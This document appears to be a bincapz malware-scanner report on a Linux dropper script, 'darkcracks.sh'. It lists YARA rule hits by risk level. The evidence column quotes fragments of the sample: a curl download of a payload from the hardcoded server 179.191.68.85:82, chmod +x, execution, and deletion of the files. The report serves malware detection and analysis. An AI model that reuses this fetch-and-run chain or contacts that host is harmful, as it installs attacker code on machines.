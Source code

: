 ## linux/2024.Darkcracks/darkcracks.sh [🚨 CRITICAL]

|   RISK   |                                                                   KEY                                                                   |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                         EVIDENCE                                                                                                                                                                                                                                                                                                                                         |
|----------|-----------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [combo/dropper/shell](https://github.com/chainguard-dev/bincapz/blob/main/rules/combo/dropper/shell.yara#curl_chmod_relative_run_tiny)  | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod](https://github.com/search?q=chmod&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/run_sleep_delete](https://github.com/chainguard-dev/bincapz/blob/main/rules/evasion/run_sleep_delete.yara#run_sleep_delete)    | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                     |
| HIGH     | [process/chdir/unusual](https://github.com/chainguard-dev/bincapz/blob/main/rules/process/chdir-unusual.yara#unusual_cd_val)            | changes to an unusual system directory                         | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| HIGH     | [ref/ip_port](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/ip_port.yara#hardcoded_ip_port)                             | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| HIGH     | [ref/site/http/ip](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/site/http-ip.yara#http_hardcoded_ip)                   | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/bincapz/blob/main/rules/fs/file-make_executable.yara#chmod_executable_plus) | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/bincapz/blob/main/rules/fs/permission-modify.yara#chmod)                       | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [net/fetch](https://github.com/chainguard-dev/bincapz/blob/main/rules/net/fetch.yara#curl_value)                                        | Invokes curl                                                   | [curl "http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1](https://github.com/search?q=curl+%22http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2FpQ1&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8Ug](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8Ug&type=code)                                                                                                                                                                                                                                                                   |
| MEDIUM   | [ref/ip](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/ip.yara#hardcoded_ip)                                            | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/relative](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/relative.yara#relative_path_val)                 | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/root](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/root.yara#root_path_val)                             | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [shell/exec](https://github.com/chainguard-dev/bincapz/blob/main/rules/shell/exec.yara#calls_shell)                                     | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [process/chdir](https://github.com/chainguard-dev/bincapz/blob/main/rules/process/chdir.yara#chdir_shell)                               | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [ref/path/var](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/var.yara#var_path)                                    | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| LOW      | [ref/site/url](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/site/url.yara#http_url)                                    | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |

